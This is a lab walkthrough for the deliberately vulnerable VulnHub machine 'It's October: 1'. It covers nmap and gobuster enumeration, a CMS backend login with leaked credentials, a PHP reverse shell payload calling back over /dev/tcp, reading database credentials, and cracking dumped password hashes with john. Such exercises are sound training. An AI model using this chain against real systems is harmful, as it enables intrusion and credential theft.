:::::::::::::::::::::::::: page
# It's October: 1 {#its-october-1 .title}

\

## 

## It's October: 1

- **[It's October: 1]{style="color:#060f94;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/its-october-1,460/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#f6d32d;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.179
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.179
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.179  
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.179
:::



1.  [Web Enumeration]{style="color:#f6d32d;"} :

- IP visit in browser : <http://192.168.2.179/>
  <http://192.168.2.179:8080/>

<!-- -->

- Now view the source code in port 8080 :



- Visit the mynote.txt parameter :
  <http://192.168.2.179:8080/mynote.txt>



::: codebox
    User : admin
    Password : adminadmin2
:::

- Directory brute force to find the parameter :

::: codebox
    gobuster dir -u http://192.168.2.179 -w /usr/share/wordlists/dirb/common.txt -x php,txt,bak,zip
:::



- Visit the parameter :
  <http://192.168.2.179/backend/backend/auth/signin>



- Login the backend page : <http://192.168.2.179/backend/backend>



1.  [Get the Reverse shell]{style="color:#f6d32d;"} :

- Go to CMS .

<!-- -->

- Click to ADD to make a new page :



- Enter the reverse shell payload :

::: codebox
    function onStart() {
        shell_exec("bash -c 'bash -i >& /dev/tcp/192.168.2.218/443 0>&1'");
    }
:::



- In Markup add this :

::: codebox
    test
:::

- Then click to save .

<!-- -->

- Start the listener :

::: codebox
    nc -lvnp 443
:::

- Then call the parameter in browser :

::: codebox
    http://192.168.2.179/test
:::

- We get the shell :



- Shell Stabilization :

::: codebox
    python3 -c 'import pty;pty.spawn("/bin/bash")'
:::

- 

::: codebox
    export TERM=xterm
:::

1.  [Database Credentials Discovery]{style="color:#f6d32d;"} :

- Check the list :

::: codebox
    ls -lh
:::

- Navigate the config directory :

::: codebox
    cd config
:::

 Found the database.php file .

- Read the file :

::: codebox
    cat database.php
:::

 Found the username and password .

1.  [MySQL Access]{style="color:#f6d32d;"} :

- MySQL login :

::: codebox
    mysql -u root -proot
:::



- Database Enumeration :

::: codebox
    show databases;
:::

- 

::: codebox
    use octoberdb;
:::

- 

::: codebox
    show tables;
:::

- 

::: codebox
    select login,password from backend_users;
:::

- 

  Found password hash .

- Crack the hash with john :

::: codebox
    nano hash.txt
:::



::: codebox
    john --wordlist=/opt/rockyou.txt hash.txt
:::
::::::::::::::::::::::::::
